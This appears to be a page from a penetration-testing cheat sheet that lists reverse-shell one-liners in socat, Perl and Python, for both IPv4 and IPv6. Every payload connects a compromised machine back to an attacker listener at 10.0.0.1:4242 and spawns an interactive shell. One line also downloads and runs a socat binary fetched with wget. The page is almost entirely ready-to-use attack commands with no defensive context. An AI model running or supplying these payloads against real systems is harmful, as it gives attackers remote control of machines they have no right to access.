 ### Socat

```powershell
user@attack$ socat file:`tty`,raw,echo=0 TCP-L:4242
user@victim$ /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```
```powershell
user@victim$ wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```

Static socat binary can be found at [https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)

### Perl

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'


NOTE: Windows only
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

### Python

Linux only

IPv4
```python
export RHOST="10.0.0.1";export RPORT=4242;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

IPv4
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

IPv6
```python
python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4242,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'
```
